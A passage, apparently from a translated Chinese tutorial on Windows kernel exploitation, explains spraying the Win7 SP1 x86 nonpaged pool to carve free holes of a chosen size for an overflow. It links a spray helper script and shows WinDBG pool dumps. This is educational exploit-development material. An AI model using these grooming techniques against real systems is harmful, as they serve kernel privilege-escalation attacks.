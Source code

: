 **4.    如果我们知道这些所有的东西，就可以进行内核喷射并制造空隙了。**

我们需要知道该对象的信息和我们使用溢出覆盖的池头部的信息，之后我会回来再讲的，因为在制造空隙时并不需要这些。我可能会失败，也做了一些准备，我希望覆盖数据也可以自动生成。现在，我只想根据给定的大小去制造空隙。所以我写了一个脚本，可以用于这个目的（请注意，这里是为 Win7 SP1 x86 硬编码的）：

[https://github.com/theevilbit/kex/blob/master/spray_helper.py](https://github.com/theevilbit/kex/blob/master/spray_helper.py)

它会让你输入想要的空隙的大小，然后进行喷射，释放空间并在 WinDBG 中显示该区域。还要注意的是，它仍是使用本地内核调试器，我们无法设置断点，所以存在竞争条件的问题，当我们使用 !pool 命令时，可以像其他内核进程一样在可用空间中分配。我仍然使用本地内核调试器的原因是对于目前阶段的演示来说更简单。当我做真实的利用演示时，就需要进行远程调试了，但在这里我可以直接进行演示。下面是输出：

```
lkd&gt; !py c:userscsabydesktopspray_helper.py
Give me the size of the hole in hex: 440
Process: 8572bd40
Object location: 857e15f0
Pool page 857e15f0 region is Nonpaged pool
 857e1000 size:   40 previous size:    0  (Allocated)  Even (Protected)
 857e1040 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e1080 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e10c0 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e1100 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e1140 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e1180 size:   40 previous size:   40  (Free )  Even (Protected)
 857e11c0 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1200 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1240 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1280 size:   40 previous size:   40  (Free )  Even (Protected)
 857e12c0 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1300 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1340 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1380 size:   40 previous size:   40  (Free )  Even (Protected)
 857e13c0 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1400 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1440 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1480 size:   40 previous size:   40  (Free )  Even (Protected)
 857e14c0 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1500 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1540 size:   40 previous size:   40  (Free )  Even (Protected)
 857e1580 size:   40 previous size:   40  (Free )  Even (Protected)
*857e15c0 size:   40 previous size:   40  (Allocated) *Even (Protected)
  Pooltag Even : Event objects
 857e1600 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e1640 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e1680 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e16c0 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e1700 size:   40 previous size:   40  (Allocated)  Even (Protected)
 857e1740 size:   40 previous size:   40  (Allocated)  Even (Protected)
```

你可以看到我们有 17 x 0x40，也就是 0x440 的空闲空间，没有必要去处理更多细节。我可以给出任何其他的大小，例如：



```
lkd&gt; !py c:userscsabydesktopspray_helper.py
Give me the size of the hole in hex: 260
Process: 8572bd40
Object location: 87b2fe00
Pool page 87b2fe00 region is Nonpaged pool
 87b2f000 size:   98 previous size:    0  (Allocated)  IoCo (Protected)
 87b2f098 size:   90 previous size:   98  (Free)       ....
 87b2f128 size:   98 previous size:   90  (Allocated)  IoCo (Protected)
 87b2f1c0 size:   98 previous size:   98  (Allocated)  IoCo (Protected)
 87b2f258 size:   98 previous size:   98  (Allocated)  IoCo (Protected)
 87b2f2f0 size:   98 previous size:   98  (Allocated)  IoCo (Protected)
 87b2f388 size:   98 previous size:   98  (Allocated)  IoCo (Protected)
 87b2f420 size:   98 previous size:   98  (Allocated)  IoCo (Protected)
```